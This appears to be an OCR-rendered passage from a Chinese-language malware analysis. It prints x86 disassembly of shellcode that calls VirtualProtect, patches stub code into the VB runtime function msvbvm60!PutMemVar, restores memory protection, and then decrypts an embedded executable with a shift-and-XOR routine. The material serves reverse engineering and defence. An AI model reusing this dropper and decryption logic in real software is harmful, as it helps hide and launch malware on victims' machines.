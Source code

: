     047C0465 8981 C0020000 mov dword ptr [ecx+2C0], eax
    047C046B 8D45 E4 lea eax, dword ptr [ebp-1C]
    047C046E 50 push eax
    047C046F 6A 40 push 40
    047C0471 6A 44 push 44
    047C0473 8B45 08 mov eax, dword ptr [ebp+8]
    047C0476 FFB0 C0020000 push dword ptr [eax+2C0]
    047C047C 6A 04 push 4
    047C047E 8B45 08 mov eax, dword ptr [ebp+8]
    047C0481 FFB0 30020000 push dword ptr [eax+230]
    047C0487 E8 63000000 call 047C04EF ; VirtualProtect修改内存属性为可写
    047C048C 83C4 18 add esp, 18
    047C048F 85C0 test eax, eax
    047C0491 75 04 jnz short 047C0497
    047C0493 33C0 xor eax, eax
    047C0495 EB 52 jmp short 047C04E9
    047C0497 E8 05000000 call 047C04A1
    047C049C E8 4E000000 call 047C04EF
    047C04A1 5B pop ebx
    047C04A2 8B43 01 mov eax, dword ptr [ebx+1]
    047C04A5 03D8 add ebx, eax
    047C04A7 83C3 05 add ebx, 5
    047C04AA 895D D8 mov dword ptr [ebp-28], ebx
    047C04AD 6A 44 push 44
    047C04AF 8B55 D8 mov edx, dword ptr [ebp-28]
    047C04B2 8B45 08 mov eax, dword ptr [ebp+8]
    047C04B5 8BB0 C0020000 mov esi, dword ptr [eax+2C0]
    047C04BB E8 73000000 call 047C0533
    ; 把前面提到的stub代码写到msvbvm60!PutMemVar
    047C04C0 59 pop ecx
    047C04C1 8D45 E4 lea eax, dword ptr [ebp-1C]
    047C04C4 50 push eax
    047C04C5 FF75 E4 push dword ptr [ebp-1C]
    047C04C8 6A 44 push 44
    047C04CA 8B45 08 mov eax, dword ptr [ebp+8]
    047C04CD FFB0 C0020000 push dword ptr [eax+2C0]
    047C04D3 6A 04 push 4
    047C04D5 8B45 08 mov eax, dword ptr [ebp+8]
    047C04D8 FFB0 30020000 push dword ptr [eax+230]
    047C04DE E8 0C000000 call 047C04EF ; VirtualProtect把内存属性修改回来
下面shellcode做的是从文件某偏移处读出exe文件内容，并解密，这块代码没有什么特殊的就不贴了，只有解密算法稍微复杂了一点：

    047C0A40 60 pushad
    047C0A41 8B5D EC mov ebx, dword ptr [ebp-14]
    047C0A44 33F6 xor esi, esi
    047C0A46 BF 638EF47B mov edi, 7BF48E63
    047C0A4B B9 07000000 mov ecx, 7
    047C0A50 8BC7 mov eax, edi
    047C0A52 8BD0 mov edx, eax
    047C0A54 C1E8 1E shr eax, 1E
    047C0A57 83E0 01 and eax, 1
    047C0A5A C1EA 03 shr edx, 3
    047C0A5D 83E2 01 and edx, 1
    047C0A60 33C2 xor eax, edx
    047C0A62 8BD7 mov edx, edi
    047C0A64 83E2 01 and edx, 1
    047C0A67 33C2 xor eax, edx
    047C0A69 8BD7 mov edx, edi
    047C0A6B D1E2 shl edx, 1
    047C0A6D 0BC2 or eax, edx
    047C0A6F 8BF8 mov edi, eax
    047C0A71 ^ E2 E1 loopd short 047C0A54
    047C0A73 25 FF000000 and eax, 0FF
    047C0A78 300433 xor byte ptr [ebx+esi], al